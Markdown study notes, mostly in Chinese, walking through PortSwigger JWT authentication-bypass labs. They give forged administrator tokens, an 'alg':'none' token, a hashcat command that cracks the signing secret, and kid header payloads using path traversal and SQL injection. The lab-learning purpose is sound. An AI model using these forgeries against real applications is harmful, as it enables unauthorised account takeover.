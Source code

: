 ```yaml
---
title: JWT
description: JWT
---
```


<!-- ## 前言

建議先讀過 [Web Tech JWT](../web-tech/jwt.md) -->

## Lab: JWT authentication bypass via unverified signature

| Dimension | Description                                                                                     |
| --------- | ----------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/jwt#accepting-arbitrary-signatures                         |
| Lab       | https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature |

NodeJS 的 [jsonwebtoken](https://www.npmjs.com/package/jsonwebtoken) 就有提供

### decode

```js
/**
 * Returns the decoded payload without verifying if the signature is valid.
 * token - JWT string to decode
 * [options] - Options for decoding
 * returns - The decoded Token
 */
export function decode(token: string, options: DecodeOptions & { complete: true }): null | Jwt;
```

### verify

```js
/**
 * Synchronously verify given token using a secret or a public key to get a decoded token
 * token - JWT string to verify
 * secretOrPublicKey - Either the secret for HMAC algorithms, or the PEM encoded public key for RSA and ECDSA.
 * [options] - Options for the verification
 * returns - The decoded token.
 */
export function verify(
    token: string,
    secretOrPublicKey: Secret | PublicKey,
    options: VerifyOptions & { complete: true },
): Jwt;
```

如果使用 [decode](#decode) 的話，就會有資安漏洞

這題的 JWT 解出來是

```json
// header
{
  "kid": "c40a9f76-6b83-4785-87dd-a6ba744a376d",
  "alg": "RS256"
}
// payload
{
  "iss": "portswigger",
  "exp": 1761457542,
  "sub": "wiener"
}
```

把 payload 重新包裝

```js
btoa(`{"iss":"portswigger","exp":1761457542,"sub":"administrator"}`);
```

塞回 cookie 就可以成功通關～

## Lab: JWT authentication bypass via flawed signature verification

| Dimension | Description                                                                                              |
| --------- | -------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/jwt#accepting-tokens-with-no-signature                              |
| Lab       | https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification |

構造

```js
btoa(`{"kid":"4ae5b5dd-6fa4-4f30-a7eb-2f1cf9f77049","alg":"none"}`);
btoa(`{"iss":"portswigger","exp":1761480707,"sub":"administrator"}`);
```

然後拼起來，塞回 cookie，就可以成功通關

## Brute-forcing secret keys using hashcat

https://portswigger.net/web-security/jwt#brute-forcing-secret-keys-using-hashcat

語法

```
hashcat -a 0 -m 16500 <jwt> <wordlist>
```

- https://hashcat.net/hashcat/
- https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list

## Lab: JWT authentication bypass via weak signing key

| Dimension | Description                                                                                 |
| --------- | ------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/jwt#brute-forcing-secret-keys-using-hashcat            |
| Lab       | https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key |

執行

```
hashcat -a 0 -m 16500 eyJraWQiOiIzZDNkYjJkZS0wOTIxLTQ2ODctOTlmYi01NTlkNjA4MzYzNGEiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTQ4MTM0Miwic3ViIjoid2llbmVyIn0.FsQAxYSBT5whQS5blEAuXMu3-z3T97LGBULToAbUz4A "C:\path\to\jwt.secrets.list"
```

結果馬上就找到

```
eyJraWQiOiIzZDNkYjJkZS0wOTIxLTQ2ODctOTlmYi01NTlkNjA4MzYzNGEiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTQ4MTM0Miwic3ViIjoid2llbmVyIn0.FsQAxYSBT5whQS5blEAuXMu3-z3T97LGBULToAbUz4A:secret1
```

用 NodeJS 的 jsonwebtoken 來簽

```js
const token10 = sign(
  { iss: "portswigger", exp: 1761482635, sub: "administrator" },
  "secret1",
  {
    noTimestamp: true,
    keyid: "9c1bd791-418f-46d0-9a5d-e1af3f3da139",
    header: {
      alg: "HS256",
      typ: undefined,
    },
  },
);
console.log(token10);
// eyJhbGciOiJIUzI1NiIsImtpZCI6IjljMWJkNzkxLTQxOGYtNDZkMC05YTVkLWUxYWYzZjNkYTEzOSJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTQ4MjYzNSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.B_3-zDREkzRs_YXGs5_5YUjpqbE_Bo9XnusXoB8bxBU
console.log(decode(token10, { complete: true }));
// {
//   header: { alg: 'HS256', kid: '9c1bd791-418f-46d0-9a5d-e1af3f3da139' },
//   payload: { iss: 'portswigger', exp: 1761482635, sub: 'administrator' },
//   signature: 'B_3-zDREkzRs_YXGs5_5YUjpqbE_Bo9XnusXoB8bxBU'
// }
```

token 塞回 cookie，結束這回合

## JWT header parameter injections

https://portswigger.net/web-security/jwt#jwt-header-parameter-injections

- jwk (JSON Web Key)
- jku (JSON Web Key Set URL)
- kid (Key ID)

## Injecting self-signed JWTs via the jwk parameter

https://portswigger.net/web-security/jwt#injecting-self-signed-jwts-via-the-jwk-parameter

example jwt header

```json
{
  "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
  "typ": "JWT",
  "alg": "RS256",
  "jwk": {
    "kty": "RSA",
    "e": "AQAB",
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
  }
}
```

jwk 要怎麼生成?

- Burp Suite JWT Editor extension
- https://www.npmjs.com/package/jose

## Injecting self-signed JWTs via the jku parameter

https://portswigger.net/web-security/jwt#injecting-self-signed-jwts-via-the-jku-parameter

/.well-known/jwks.json

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
      "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
    },
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
      "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
    }
  ]
}
```

## Injecting self-signed JWTs via the kid parameter

https://portswigger.net/web-security/jwt#injecting-self-signed-jwts-via-the-kid-parameter

- Path traversal

```json
{
  "kid": "/dev/null", // empty string
  "typ": "JWT",
  "alg": "HS256",
  "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```

- SQLi

```json
{
  "kid": "' UNION SELECT 'hello'",
  "typ": "JWT",
  "alg": "HS256",
  "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```

## 參考資料

- https://portswigger.net/web-security/jwt
